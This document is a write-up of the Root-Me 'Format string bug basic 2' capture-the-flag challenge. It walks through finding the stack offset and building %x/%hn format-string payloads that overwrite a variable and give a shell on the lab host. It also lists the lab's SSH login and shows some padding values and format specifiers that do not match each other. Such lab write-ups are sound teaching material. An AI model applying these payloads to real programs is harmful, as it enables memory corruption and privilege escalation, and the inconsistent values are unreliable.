 # ELF x86 - Format string bug basic 2
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-2
```
Environment configuration :
PIE 	Position Independent Executable 	 No
RelRO 	Read Only relocations 	                 No
NX 	Non-Executable Stack 	                 YES
ASLR 	Address Space Layout Randomization 	 No
SF 	Source Fortification 	                 No
SSP 	Stack-Smashing Protection 	         No
SRC 	Source code access 	                 Yes

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch14@challenge02.root-me.org  
Username	app-systeme-ch14
Password	app-systeme-ch14
```
According to the source, the goal is to change the variable _check_ from 0x04030201 to 0xdeadbeef using string format vulnerability.<br>
The vulnerable code is at line 25:
```c
snprintf( fmt, sizeof(fmt), argv[1] );
```
Which enables an attacker to control the **fmt** argument of _snprintf_.<br>
Let's verify it quickly:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 %08x.%08x.%08x.%08x
check at 0xbffffb08
argv[1] = [%08x.%08x.%08x.%08x]
fmt=[b7fdc4a0.00000001.00000000.00000001]
check=0x4030201
```
In order to exploit this vulnerability, first we'll need to find the offset of to our **argv[1]**. After few tries, one can find out that the offset is 9:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 "AAAA %x %x %x %x %x %x %x %x %x"
check at 0xbffffaf8
argv[1] = [AAAA %x %x %x %x %x %x %x %x %x]
fmt=[AAAA b7fdc4a0 1 0 1 bffffc24 0 0 4030201 {41414141}]
check=0x4030201
```
Let's try to override the first nimble of **check**.<br>
First, we'll enter **check**'s address to the format string.<br>
Then, we'll make sure that the output string will contain enough bytes, so 0xbeef will be written.<br>
And for last, we'll take advantage of the "$" (control which variable will be used) and "hn" (writes the number of bytes into an int pointer) options.
So the input should look like ```\x08\xfb\xff\xbf%48875x%9hn``` (the 48875 can be found by trial and error):
```sh
app-systeme-ch14@challenge02:~$ ./ch14 $(python /tmp/exploit.py)
check at 0xbffffb08
argv[1] = ���%48875x%9$hn]

You are on the right way !
fmt=���                                                                                                                           ]
check=0x403beef
```
Great!<br>
Now let's write the second nimble.<br>
First, we'll enter the second nimble's address into the buffer (0xbffffb08 + 2 = 0xbffffb0a).<br>
Second, we'll adjust the 48875 to 48871 (4 more bytes entered).<br>
Then, at the end we'll make sure that the output string will contain enough bytes, so 0xdead will be written.<br>
And for last, we again take advantage of the "$" and "hn" options.<br>
So the input should look like ```\x08\xfb\xff\xbf\x0a\xfb\xff\xbf%48871x%9hn%8126x%10$hn```:
```
app-systeme-ch14@challenge02:~$ ./ch14 $(python /tmp/exploit.py)
check at 0xbffffaf8
argv[1] = [��������%48871x%9$hn%73662x%10$hn]
fmt=[��������                                                                                                                       ]
check=0xdeadbeef
Yeah dude ! You win !
$ id
uid=1114(app-systeme-ch14) gid=1114(app-systeme-ch14) euid=1214(app-systeme-ch14-cracked) groups=1214(app-systeme-ch14-cracked),100(users),1114(app-systeme-ch14)
$ cat .passwd
<censored>
```
